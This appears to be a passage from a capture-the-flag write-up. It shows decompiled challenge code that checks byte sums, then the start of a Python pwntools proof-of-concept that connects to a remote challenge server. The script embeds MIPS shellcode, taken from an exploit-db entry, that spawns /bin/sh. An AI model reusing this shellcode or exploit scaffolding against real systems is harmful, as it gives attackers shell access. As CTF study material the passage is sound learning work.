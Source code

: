 ```
undefined4 FUN_00400fd0(byte *param_1)

{
  undefined4 uVar1;
  
  if (((((uint)*param_1 + (uint)param_1[1] + (uint)param_1[2] == 0xab) &&
       ((uint)param_1[1] + (uint)param_1[2] + (uint)param_1[3] == 300)) &&
      ((uint)param_1[2] + (uint)param_1[3] + (uint)*param_1 == 0x133)) &&
     ((uint)param_1[3] + (uint)*param_1 + (uint)param_1[1] == 0xb6)) {
    uVar1 = FUN_00400f04(param_1 + 4);
  }
  else {
    uVar1 = 0;
  }
  return uVar1;
}
```

And it is not just constants that change, operators change as well, e.g. `<`, `&&`, `^`, `+`, etc...

At this point I decided to build a local PoC to make sure I have all the necessary bits and understanding before focusing on optimization.


### PoC

#### Setup

```
#!/usr/bin/python3

from pwn import *
import hashlib, base64, gzip, io, os
import angr, time

#https://vulmon.com/exploitdetails?qidtp=exploitdb&qid=35868
#does NOT work with busybox
#36 bytes
shellcode  = b""
shellcode += b"\xff\xff\x06\x28"
shellcode += b"\xff\xff\xd0\x04"
shellcode += b"\xff\xff\x05\x28"
shellcode += b"\x01\x10\xe4\x27"
shellcode += b"\x0f\xf0\x84\x24"
shellcode += b"\xab\x0f\x02\x24"
shellcode += b"\x0c\x01\x01\x01"
shellcode += b"/bin//sh"
shellcode += (0x34 - len(shellcode)) * b'\x00'

# find next n
n = 0
while os.path.isfile('binary' + str(n)):
    n += 1
open('binary' + str(n), 'wb').write(b'')

p = remote('106.53.114.216',9999)
context.log_level='DEBUG'
p.recvuntil('== "')
target = p.recvuntil('"')[:-1]
print("target hash: " + target.decode())
p.recvuntil('>')
```

